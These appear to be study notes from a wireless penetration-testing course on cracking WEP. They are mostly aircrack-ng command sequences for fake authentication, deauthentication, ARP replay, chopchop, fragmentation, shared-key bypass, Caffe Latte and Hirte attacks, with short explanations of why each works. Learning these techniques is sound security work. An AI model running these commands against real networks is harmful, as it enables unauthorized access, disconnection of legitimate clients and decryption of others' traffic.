

Chapter 5 - WEP
Quick Notes
## Fake Authentication Attack
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
macchanger --show <interface> ## learning the MAC address of the mon0 (monitor mode) network interface
airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface> ## listening to the target AP on the specified channel
aireplay-ng -1 0 -e <ESSID> -a <AP_MAC> -h <Your_MAC> <interface> ## performing a fake authentication attack against AP
## Deauthentication Attack
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface> ## listening to the target AP on the specified channel
aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface> ## performing a deauthentication attack against AP
## ARP Request Replay Attack
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface> ## listening to the target AP on the specified channel
aireplay-ng -1 0 -e <ESSID> -a <AP_MAC> -h <Your_MAC> <interface> ## performing a fake authentication attack against AP
aireplay-ng -3 -b <AP_MAC> -h <Your_MAC> <interface> ## performing a ARP Request Replay attack against AP
aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface> ## performing a deauthentication attack against AP
aircrack-ng <capture_file> ## cracking WEP key (In order to achieve a successful result, you need to catch a sufficient number of IVs during the attack.)
## Interactive Packet Replay Attack
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface> ## listening to the target AP on the specified channel
aireplay-ng -1 0 -e <ESSID> -a <AP_MAC> -h <Your_MAC> <interface> ## performing a fake authentication attack against AP
aireplay-ng -2 -b <AP_MAC> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <interface> ## performing a interactive packet replay attack against AP
aircrack-ng -z <capture_file> ## cracking WEP key (In order to achieve a successful result, you need to catch a sufficient number of IVs during the attack.)
## Fragmentation Attack
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface> ## listening to the target AP on the specified channel
aireplay-ng -1 0 -e <ESSID> -a <AP_MAC> -h <Your MAC> <interface> ## performing a fake authentication attack against AP
aireplay-ng -5 -b <AP_MAC> -h <Your MAC> <interface> ## performing a fragmentation attack against AP
packetforge-ng -0 -a <AP_MAC> -h <Your_MAC> -l <Source_IP> -k <Dest_IP> -y <XOR_file> -w <output_file> ## creating an ARP request packet using packetforge-ng
tcpdump -n -vvv -e -s0 -r <output_file> ## check the contents of the created package
aireplay-ng -2 -r <output_file> <interface> ## injecting the generated packet into the network (If the correct pack is injected, the IV amount will increase rapidly.)
aircrack-ng <capture_file> ## cracking WEP key (In order to achieve a successful result, you need to catch a sufficient number of IVs during the attack.)
## Korek ChopChop Attack
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface> ## listening to the target AP on the specified channel
aireplay-ng -1 0 -e <ESSID> -a <AP_MAC> -h <Your_MAC> <interface> ## performing a fake authentication attack against AP
aireplay-ng -4 -b <AP_MAC> -h <Your_MAC> <interface> ## performing a korek chopchop attack against AP
packetforge-ng -0 -a <AP_MAC> -h <Your_MAC> -l <Source_IP> -k <Dest_IP> -y <XOR_file> -w <output_file> ## creating an ARP request packet using packetforge-ng
tcpdump -n -vvv -e -s0 -r <output_file> ## check the contents of the created package
aireplay-ng -2 -r <output_file> <interface> ## injecting the generated packet into the network (If the correct pack is injected, the IV amount will increase rapidly.)
aircrack-ng <capture_file> ## cracking WEP key (In order to achieve a successful result, you need to catch a sufficient number of IVs during the attack.)
## Bypassing WEP Shared Key Authentication
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface> ## listening to the target AP on the specified channel
aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface> ## performing a deauthentication attack against AP to capture the PRGA XOR keystream
aireplay-ng -1 0 -e <ESSID> -y <keystream file> -a <AP_MAC> -h <Your_MAC> <interface> ## performing a fake shared key authentication using XOR key flow
aireplay-ng -3 -b <AP_MAC> -h <Your_MAC> <interface> ## performing a ARP Request Replay attack against AP
aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface> ## performing a deauthentication attack against AP
aircrack-ng <capture_file> ## cracking WEP key (In order to achieve a successful result, you need to catch a sufficient number of IVs during the attack.)

CRC-32 is a digest, just like MD5
An attacker can sniff packets, where the IV (24 bit) is in plain text. since 24 bit is not much, capturing enough packets, statistical attacks can be run. RC4 generates the same keystring for a same IV+key. #Data in airodump shows how many useful packets have been captured. When enough are present we can crack it with:
aircrack-ng archivo.cap
Sometimes aircrack doesn't return the ascii version of the key but we can connect to the network with the hex (without the ":" ).
If not many clients are connected we can force the AP to send us traffic. We first need to associate with it (otherwise it ignores our requests), then we can send packets and capture the IVs in the packets it returns to us.
For this, keep saving packets:
sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon
and do a fake auth (the 0 indicates that the attack is done once):
sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <la MAC de wlan0mon> wlan0mon
In monitor mode, with ifconfig we see unspec instead of ether and the MAC looks longer, we need only the first 6 bytes:
and for aireplay commands replace - by :
At this point we are only associated to the AP, not connected to it. There are several methods to generate traffic:
Crafted ARP packets
Wait till there is an ARP packet (sent by the clients already connected to the network). They will be encrypted but because of their length we know they can be ARP. We just relay them to the AP. The AP will respond to us with another packet with a new IV. We do this until we have enough IVs.
To do this (just befor this command run the --fakeauth just in case)
It is necessary to use a target client MAC with -h, the MAC of a client that is already connected to the network and sends valid IVs
sudo aireplay-ng --arpreplay -b <AP bssid> -h <target client MAC> wlan0mon
The -a used in other commands is replaced by -b for the BSSID and the --arpreplay doesn't have any number afterward
This captures packets until one of them is an ARP request, and then starts to generate traffic. Watch with airodump who many useful packets we have in #Data.
to capture useful ARP packets we either need to be associated with the AP (fakeauth) or use with aireplay-ng arpreplay the MAC of an associated client
Depending on the key length (64 or 128) bit it takes more IVs to crack the key
Stealthy sniffing
Just waiting for clients to send a lot of IVs to the AP can take a lot of time but it's stealty
Chop chop attack
Instead of replaying an ARP packet we determine the keystream of a packet, we craft a new packet with the keystream and inject it to the AP. The AP will respond with a new IV that we will replay, etc. Can be used when no clients are connected to the AP
The --fakeauth attack is only used against OPEN and WEP networks, it doesn't work against WPA/WPA2. Fake auth doesn't generate ARP packets. The lack of association with the access point is the biggest reason why injection fails, so we need to do fakeauth before trying to inject packets to WEP networks (ARP replay, chopchop, fragmentation attack). Sometimes you periodically get disassociation events. Some access points require to reassociate every 30 seconds, otherwise the fake client is considered disconnected. In this case, setup the periodic re-association delay:
aireplay-ng -1 30 -e 'the ssid' -a 00:13:10:30:24:9C -h 00:11:22:33:44:55 ath0
If fake authentication is never successful (aireplay-ng keeps sending authentication requests) then MAC address filtering may be in place
more info and troubleshooting in: https://www.aircrack-ng.org/doku.php?id=fake_authentication
# We first start airodump to capture packets and save them to a file
sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon
# Then we do fake auth with aireplay to associate to the AP (run just before the chop chop attack). We can get our MAC with ifconfig wlan0
sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <our wlan0mon MAC that we want to associate> wlan0mon
# chop chop attack (waits for beacons from AP to try to determine keystream from them)
sudo aireplay-ng --chopchop -b <AP bssid> -h <our wlan0mon MAC> wlan0mon
# When it finds an ARP packet it asks if we want to use it. say "y". After a while it saves the keystream in a xor file. We can do ctrl-C to not wait much, but the saved keystream may fail. If so, keep the chop chop working for longer.
# After that, forge an ARP packet (-0 option)
packetforge-ng -0 -a <bssid> -h <our wlan0mon MAC address> -k 255.255.255.255 -l 255.255.255.255 -y <file.xor> -w <forged packet name>
# -k is destination IP (use 255.255.255.255)
# -l is source IP (use 255.255.255.255)
# <forged packet name> can be anything, it's the name of the forged packet
# having done --deauth again, use the forged packet:
sudo aireplay-ng -2 -r <forged packet name> wlan0mon
# -2 is for replaying
# it asks again if we want to use the packet. say "y", this starts to generate traffic that airodump caputres
fragmentation attack
Similar to chop chop but we need to obtain 1500 bytes from the pseudo random generator algorithm (PRGA). With this attack another packet is forged, but it's faster than chop chop, although we need to be physically close to the AP so that it works better.
# Start saving packets
sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon
# fake auth (the 0 instructs to do the attack once)
sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <our wlan0mon MAC> wlan0mon
# Obtain PRGA
aireplay-ng --fragment -b <bssid> -h <our wlan0mon MAC> wlan0mon
# Say "y" when asked. It may fail several times and ask us if we want to use another. say "y" always. When one of the packets is useful it lets us know and saves the keystream in a .xor file
# forge a new packet (with -0 it creates an ARP packet)
packetforge-ng -0 -a <bssid> -h <nuestra mac de wlan0mon> -k 255.255.255.255 -l 255.255.255.255 -y <xor file> -w <output>
# inject the forged packet (remember to do fake auth just before this)
sudo aireplay-ng -2 -r <forged packet name> wlan0mon
WEP SKA
Normally when we do fake auth with aireplay-ng to a WEP network we can see it becomes OPN, but some routers allow to configure Shared Key Authentication (SKA), which prevents that no one without that key can associate to the AP (unlike in OPEN networks, where anyone can associate). In networks with SKA set up we will see SKA after doing fake auth.
It is possible to deauthenticate a connected client, and capture the SKA when he reconnects. With this key we can associate to the AP and try the previous attacks to recover the WEP key.
We can also inject an ARP packet using the MAC address of the client which is already connected to the AP. With this we can generate traffic to recover IVs and still crack the WEP password, despite not having the SKA.
sudo aireplay-ng --arpreplay -b <AP bssid> -h <MAC of a connected client> wlan0mon
The 802.11w standard protects against deauth attacks, buth must be supported by both the client and the AP
When we have cracked a WEP or WPA key we can decrypt captured traffic in wireshark:
preferences > protocols > IEEE 802.11, check "enable decryption", edit the decryption keys y create new entries. For WEP, use the key in hex format.`
If we don't have wireshark we can do:
airdecap-ng -w <wep key in hex> <pcap>
tshark -r <decrypted pcap>
AP-less attacks: Caffe latte attack
We can craft packets by modifying the ICV (integrity check value, that is, a CRC) and the plantext of a message and do so in a way that the AP thinks that the message is legitimate.
With this we can modify a Gratuitous ARP packet and change it to an ARP request packet, to repeat the ARP attack
Client devices store the keys of the networks they already connected to in the past. If we create a fake AP that looks like on of the stored APs in the client PNL, he will connect to us and send WEP-encrypted data with the target AP key. Sometimes it sends also Gratuitous ARP packets, to say its IP and MAC In these messages we won't find the target MAC, and the target IP and sender IP are the same (that of the client). We as an AP send requests to the client, and he will return responses to us, from where we get valid IVs that can be cracked as always.
We don't have a valid WEP keys for the crafted packets, but due to the properties of XOR we can modify the packets that he sends us, and they will still be valid.
Hirte attack
AP-less attack
# create fake AP (-N for hirte attack)
airbase-ng -c 1 --essid "network1" -W 1 -N mon0
# capture packets
airodump-ng -c 1 mon0 --write Hirte
# wait for the client to connect, and ARP packets should start being replayed,
WEP cloacking
WEP protection in which fake packets are sent into the air to make it difficult to crack WEP (they try to difficult the statistical attacks)